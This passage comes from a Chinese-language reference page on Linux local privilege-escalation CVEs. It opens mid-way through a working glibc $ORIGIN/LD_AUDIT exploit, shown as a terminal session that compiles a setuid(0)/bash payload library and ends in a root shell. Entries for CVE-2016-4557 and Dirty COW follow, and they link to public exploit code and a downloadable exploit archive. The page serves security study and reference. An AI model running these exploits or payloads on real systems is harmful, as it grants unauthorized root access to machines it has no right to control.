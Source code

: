     $ rm -rf /tmp/exploit/
    # /proc链接仍存在，但已标记为已被删除

    $ ls -l /proc/$$/fd/3
    lr-x------ 1 taviso taviso 64 Oct 15 09:21 /proc/10836/fd/3 -> /tmp/exploit/target (deleted)
    # 使用负载DSO替换目录，使$ORIGIN成为到dlopen()的有效目标

    $ cat > payload.c
    void __attribute__((constructor)) init()
    {
    setuid(0);
    system("/bin/bash");
    }
    ^D
    $ gcc -w -fPIC -shared -o /tmp/exploit payload.c
    $ ls -l /tmp/exploit
    -rwxrwx--- 1 taviso taviso 4.2K Oct 15 09:22 /tmp/exploit*
    # 通过LD_AUDIT强制/proc中的链接加载$ORIGIN

    $ LD_AUDIT="\$ORIGIN" exec /proc/self/fd/3
    sh-4.1# whoami
    root
    sh-4.1# id
    uid=0(root) gid=500(taviso)
    ```

**CVE-2016-4557**
- 简介

    Linuxkernel 是美国 Linux 基金会发布的开源操作系统 Linux 所使用的内核。NFSv4implementation 是其中的一个分布式文件系统协议。Linuxkernel4.5.5 之前版本的 kernel/bpf/verifier.c 文件中的‘replace_map_fd_with_map_ptr’函数存在安全漏洞，该漏洞源于程序没有正确维持 fd 数据结构体。本地攻击者可借助引用不正确文件描述符的 BPF 指令利用该漏洞获取权限或造成拒绝服务（释放后重用）。

- 影响范围

    - Linux kernel <= 4.5.4

- POC | Payload | exp
    - https://www.exploit-db.com/exploits/39772
    - https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip

**CVE-2016-5195 脏牛 Dirty COW**
- 简介

    2016年10月18日，Phil Oester 提交了隐藏长达9年之久的“脏牛漏洞（Dirty COW）”0day 漏洞，该漏洞是 Linux 内核的内存子系统在处理写时拷贝(Copy-on-Write)时存在条件竞争漏洞，导致可以破坏私有只读内存映射。黑客可以获取低权限的本地用户后，利用此漏洞获取其他只读内存映射的写权限，进一步获取 root 权限。

- 影响范围
    - Linux kernel < 4.8.3

- 相关文章
    - [[翻译]从内核角度分析 Dirty Cow 原理](https://bbs.pediy.com/thread-218797.htm)
